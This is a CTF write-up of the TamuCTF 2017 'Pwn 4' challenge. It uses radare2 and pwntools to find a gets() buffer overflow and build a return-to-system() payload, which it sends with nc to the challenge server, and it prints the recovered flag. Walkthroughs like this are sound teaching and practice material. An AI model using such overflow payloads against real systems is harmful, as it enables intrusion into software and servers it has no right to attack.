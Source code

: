 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-29T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/1-pwn4_description.png)

Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```
![Pwn4 functions](/assets/2-pwn4_functions.png)

We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.

![Pwn4 functions code](/assets/3-pwn4_functions_code.png)

Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```
![Pwn4 printing flag2.txt](/assets/4-pwn4_printing_flag2.png)

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/5-pwn4_remote_flag2_content.png)

Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
![Pwn4 printing flag2.txt](/assets/6-pwn4_pointer_flag_file.png):

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](/assets/7-pwn4_answer.png)
Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.